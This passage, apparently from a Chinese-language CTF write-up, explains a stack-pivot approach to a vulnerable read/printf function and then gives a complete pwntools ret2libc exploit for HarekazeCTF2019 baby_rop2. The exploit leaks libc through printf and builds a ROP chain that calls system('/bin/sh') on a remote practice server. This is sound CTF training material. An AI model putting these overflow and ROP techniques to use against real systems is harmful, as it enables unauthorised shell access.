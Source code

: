 当然此处我们还有一个问题就是'/bin/sh'的地址我们不知道。我们可以通过泄露原来ebp的值来确定，我们将此地址叫做addr，以免和ebp寄存器混淆

```c
int vul()
{
    char s[40]; //	[esp+0h][ebp-28h]BYREF
    
    memset(s, 0x20u);
    read(0, s, 0x30u);
    printf("Hello, %s\n", s);
    read(0, s, 0x30u);
    return printf("Hello, %s\n", s);
}
```

可以看到有一个printf函数

printf函数会打印s字符串，且遇到0就会停止打印，所以如果我们将addr之前的内容全部填充不为0的字符，就能将addr打印出来，我们通过地址再计算出addr到s的距离，我们就可以通过addr来表示`/bin/sh`所在的地址了。

**我们先通过第一个`read`传入`payload`，然后通过`printf`打印出`addr`的值,然后通过第二个`read`函数构造栈转移，执行`systeam('/bin/sh')`**

## 27 HarekazeCTF2019 baby_rop2

ret2libc，但是用`printf`输出`read`函数的地址

```python
from pwn import *
from LibcSearcher import LibcSearcher
#p=process('./pwn')
p=remote('node5.buuoj.cn',25118)
elf=ELF('./pwn')

read_got=elf.got['read']
printf_plt=elf.plt['printf']
main_addr=elf.sym['main']
format_addr=0x400770	# 原本输出字符串的地址
pop_rdi = 0x400733
pop_rsi_r15 = 0x400731

payload=b'a'*0x20+b'b'*0x8	# 设置溢出覆盖返回地址
payload+=p64(pop_rdi)+p64(format_addr)	# pop_rdi弹入原本字符串
payload+=p64(pop_rsi_r15)+p64(read_got)+p64(0)
# ret到pop_rsi_r15，将read的got表地址弹入rsi，随便一个东西弹入r15
payload+=p64(printf_plt)+p64(main_addr)
# ret到printf的plt表地址，也就是调用plt，然后返回main

p.sendlineafter(b"name?",payload)
p.recvuntil(b'!\n')
read_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc=LibcSearcher("read",read_addr)
libc_base=read_addr-libc.dump('read')
log.info("libc_base:"+hex(libc_base))

sys_addr=libc_base+libc.dump("system")
binsh_addr=libc_base+libc.dump("str_bin_sh")
payload2=b'a'*40+p64(pop_rdi)+p64(binsh_addr)+p64(sys_addr)+p64(0)
p.sendline(payload2)
p.interactive()
```
